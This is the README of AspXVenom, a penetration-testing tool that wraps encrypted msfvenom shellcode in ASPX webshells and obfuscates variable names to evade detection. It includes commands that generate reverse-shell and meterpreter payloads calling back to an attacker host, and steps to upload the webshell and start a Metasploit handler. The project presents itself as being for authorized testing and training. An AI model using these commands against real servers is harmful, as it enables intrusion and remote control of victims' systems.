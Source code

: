 # AspXVenom

<p align="center">
  <img src="https://img.shields.io/badge/Version-2.0-brightgreen" alt="Version">
  <img src="https://img.shields.io/badge/Language-Python%203-blue" alt="Language">
  <img src="https://img.shields.io/badge/Platform-Windows%20%7C%20Linux-orange" alt="Platform">
  <img src="https://img.shields.io/badge/License-MIT-lightgrey" alt="License">
</p>

<p align="center">
     ![AspXVenom in action](screenshot.png)
</p>

<p align="center">
  <b>AspXVenom</b> is an advanced ASPX shellcode generator with encryption and obfuscation capabilities for penetration testing.
</p>

<p align="center">
  <a href="https://xbz0n.sh"><img src="https://img.shields.io/badge/Blog-xbz0n.sh-red" alt="Blog"></a>
</p>

---

## Overview

AspXVenom automates the process of generating encoded shellcode and embedding it into ASPX webshells, providing a smooth workflow for penetration testers during security assessments. The tool is specifically designed for testing ASPX-enabled web servers and .NET environments.

## New in Version 2.0

AspXVenom v2.0 is a complete rewrite with significant improvements:

- **Self-contained** - All templates embedded directly in a single script
- **Enhanced obfuscation** - Variable name randomization to evade detection
- **Improved encryption** - Customizable Caesar cipher keys
- **Better management** - Temporary file cleanup and improved error handling
- **More robust** - Comprehensive validation and exception handling
- **User-friendly** - Detailed logs and summary output

## Features Comparison

| Feature | v1.0 (Legacy) | v2.0 |
|---------|---------------|------|
| Required files | Multiple files (templates) | Single file |
| Encryption | Fixed key (5) | Customizable, random by default |
| Variable obfuscation | ❌ | ✅ |
| Error handling | Basic | Comprehensive |
| Temporary files | Persistent | Auto-cleanup |
| Logging | Limited | Detailed with verbosity control |
| Parameter validation | ❌ | ✅ |
| Randomization | ❌ | ✅ |

## Requirements

- Python 3.6+
- Metasploit Framework
- Mono (for executing .NET applications)
- mcs (Mono C# compiler)

## Installation

```bash
# Clone the repository
git clone https://github.com/xbz0n/AspXVenom.git
cd AspXVenom

# Ensure the script is executable
chmod +x aspxvenom.py
```

## Usage

### Version 2.0 (Recommended)

```bash
# Basic usage
./aspxvenom.py --LHOST 192.168.1.100 --LPORT 4444

# With variable obfuscation
./aspxvenom.py --LHOST 192.168.1.100 --LPORT 4444 --obfuscate

# With custom encryption key and verbose output
./aspxvenom.py --LHOST 192.168.1.100 --LPORT 4444 --key 42 --verbose

# Custom payload and output directory
./aspxvenom.py --LHOST 192.168.1.100 --LPORT 4444 --payload windows/x64/shell_reverse_tcp --output-dir custom_output
```

### Legacy Version (1.0)

```bash
# Navigate to legacy directory
cd legacy

# Basic usage 
python3 aspx_shellcode_generator.py --LHOST 192.168.1.100 --LPORT 4444
```

## Command Line Options

| Option | Description | Default |
|--------|-------------|---------|
| `--LHOST` | IP address to listen on (required) | - |
| `--LPORT` | Port to listen on (required) | - |
| `--payload` | Metasploit payload to use | windows/x64/meterpreter/reverse_https |
| `--output-dir` | Directory to save generated files | output |
| `--key` | Custom encryption key (1-255) | Random |
| `--verbose`, `-v` | Enable verbose output | False |
| `--obfuscate`, `-o` | Obfuscate variable names | False |

## Workflow

1. The tool generates shellcode using msfvenom with your specified parameters
2. It embeds the shellcode into a C# program that encrypts it using a Caesar cipher
3. The encrypted shellcode is embedded into an ASPX web shell template
4. The tool creates a Metasploit resource file for handling the connection

## Demo

After successful execution, you'll see a summary like this:

```
============================================================
 AspXVenom - Shellcode Generator Summary 
============================================================
LHOST: 192.168.1.100
LPORT: 4444
Payload: windows/x64/meterpreter/reverse_https
Encryption Key: 42
Variable Obfuscation: Enabled

Generated Files:
- Webshell: /path/to/output/WebShellFinal.aspx
- Metasploit RC: /path/to/output/met64.rc

Usage:
1. Upload WebShellFinal.aspx to the target server
2. Start Metasploit handler: msfconsole -r met64.rc
============================================================
```

## Security Considerations

- This tool is for educational purposes and authorized testing only
- Always obtain proper permission before performing any penetration testing
- The payloads generated are detected by most antivirus products
- Use responsibly and legally

## Contributing

Contributions are welcome! Please feel free to submit a Pull Request.

## Author

- **Ivan Spiridonov (xbz0n)** - [Blog](https://xbz0n.sh) | [GitHub](https://github.com/xbz0n)

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## Acknowledgments

- Special thanks to the penetration testing community for inspiration
- Made for OSEP certification challenges 
